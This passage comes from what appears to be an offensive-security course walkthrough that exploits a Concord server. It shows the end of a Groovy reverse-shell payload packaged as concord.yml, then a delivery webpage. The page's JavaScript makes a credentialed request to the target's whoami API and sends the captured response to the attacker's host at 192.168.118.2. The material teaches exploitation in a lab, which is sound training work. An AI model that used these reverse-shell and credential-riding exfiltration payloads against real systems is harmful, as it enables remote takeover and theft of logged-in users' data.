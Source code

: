          while (pe.available() > 0) so.write(pe.read());
         while (si.available() > 0) po.write(si.read());
         so.flush();
         po.flush();
         Thread.sleep(50);
         try {
            p.exitValue();
            break;
         } catch (Exception e) {}
         };
         p.destroy();
         s.close();
Listing 12 - Building Groovy Payload - Reverse Shell

This will become the concord.yml file that we will send to the server. We'll save this payload for later. Next, we need to create the delivery mechanism. As mentioned earlier, we will create a website that will send this payload. We'll start with an empty HTML page that contains a single script tag.

<html>
	<head>
		<script>
		</script>
	</head>
	<body>
	</body>
</html>
Listing 13 - Basic HTML Page

Next, we need to add some JavaScript between the script tags that will send the API call to deliver the concord.yml payload. Before we do that, we'll send the "whoami" request to determine if the user is actually logged in. This isn't strictly necessary but it will make the exploit more effective, less noisy, and will provide us with more usable data.

<script>
	fetch("http://concord:8001/api/service/console/whoami", {
		credentials: 'include'
	})
	.then(async (response) => {
		if(response.status != 401){
			let data = await response.text();
			fetch("http://192.168.118.2/?msg=" + data )
		}else{
			fetch("http://192.168.118.2/?msg=UserNotLoggedIn" )
		}
	})
</script>
Listing 14 - Using Fetch to Call whoami

The code in Listing 14 will first send a request to the target server and the target endpoint with the credentials (cookies). If the response status is not 401, the captured data will be sent back. If the response status is 401, a message will be sent back to our Kali server.

Let's save the contents of this into ~/concord/index.html and use Python to start an HTTP server on port 80.
